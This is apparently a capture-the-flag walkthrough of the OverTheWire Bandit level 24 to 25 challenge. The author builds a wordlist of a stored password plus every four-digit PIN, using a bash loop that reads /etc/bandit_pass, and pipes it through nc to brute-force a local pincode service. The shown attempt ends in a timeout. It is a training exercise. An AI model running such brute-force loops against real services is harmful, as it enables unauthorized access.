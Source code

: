 Notice how you must form your input, as well as the timeout.

```
bandit24@bandit:~$ date
Mon Dec  2 11:53:17 CET 2019
bandit24@bandit:~$ nc -v localhost 30002
localhost [127.0.0.1] 30002 (?) open
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:~$ date
Mon Dec  2 11:53:40 CET 2019
```
You can tell after connecting, then idling, that the listening is dropped quickly. Don't worry about that just yet.

As you should know from level 20-21, you can pass strings to `nc`. You can `nc` with that passed, repeatedly with a different pin each time. You can probably tell a loop should be involved.

I tried to think about inputs, and what this might teach for real situations in the wild. I’m aware that word lists or files of input like this tend to be supplied as input to password crackers. So let’s try and create one of those to make things easier.

```
bandit24@bandit:~$ mkdir /tmp/fathoms24
bandit24@bandit:~$ cd /tmp/fathoms24
bandit24@bandit:/tmp/fathoms24$ ls
bandit24@bandit:/tmp/fathoms24$ for i in {0000..9999}; do echo "$(cat /etc/bandit_pass/bandit24) $i"; done >> /tmp/fathoms24/inputlist
-bash: fork: retry: Resource temporarily unavailable
bandit24@bandit:/tmp/fathoms24$ ls
inputlist
bandit24@bandit:/tmp/fathoms24$ head inputlist 
<FLAG_REDACTED> 0000
<FLAG_REDACTED> 0001
<FLAG_REDACTED> 0002
<FLAG_REDACTED> 0003
<FLAG_REDACTED> 0004
<FLAG_REDACTED> 0005
<FLAG_REDACTED> 0006
<FLAG_REDACTED> 0007
<FLAG_REDACTED> 0008
<FLAG_REDACTED> 0009
```

We pass it with the following line, which reads line after line of input from your list and sends it over the connection while pruning anything that comes back wrong. It should work.

```
bandit24@bandit:/tmp/fathoms24$ nc localhost 30002 < /tmp/fathoms24/inputlist | grep -v "Wrong"

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
```
